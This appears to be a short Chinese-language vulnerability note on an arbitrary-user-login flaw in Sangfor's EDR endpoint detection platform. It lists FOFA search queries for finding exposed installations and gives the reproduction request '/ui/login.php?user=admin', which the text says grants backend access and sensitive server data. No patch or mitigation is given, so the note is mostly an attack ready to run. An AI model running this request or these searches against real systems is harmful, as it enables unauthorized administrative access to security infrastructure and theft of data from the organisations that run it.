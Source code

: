 # 深信服EDR平台存在任意用户登录漏洞

# 一、漏洞简介
 深信服终端检测响应平台EDR,通过云网端联动协同、威胁情报共享、多层级响应机制,帮助用户快速处置终端安全问题,构建轻量级、智能化、响应快的下一代终端安全系统。该EDR系统存在任意用户登录漏洞，攻击者通过漏洞可以登录系统后台并获取服务器的敏感信息。

# 二、影响版本
+ 深信服EDR

# 三、资产测绘
+ fofa`<font style="color:rgba(0, 0, 0, 0.9);">app="SANGFOR-EDR"</font>``<font style="color:rgba(0, 0, 0, 0.9);">title="终端检测响应平台"</font>`

![1716179568863-6a3ef6e1-44be-4250-a0b9-6e869186adc6.png](./img/sKnLfiYkMwtg-rAE/1716179568863-6a3ef6e1-44be-4250-a0b9-6e869186adc6-627743.png)

# 四、漏洞复现
```plain
/ui/login.php?user=admin
```

![1716179600545-25ccad33-6f0c-4979-85ee-1e4a54c2d137.png](./img/sKnLfiYkMwtg-rAE/1716179600545-25ccad33-6f0c-4979-85ee-1e4a54c2d137-926641.png)



> 更新: 2024-05-23 13:32:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/iz3fn97qincapxmq>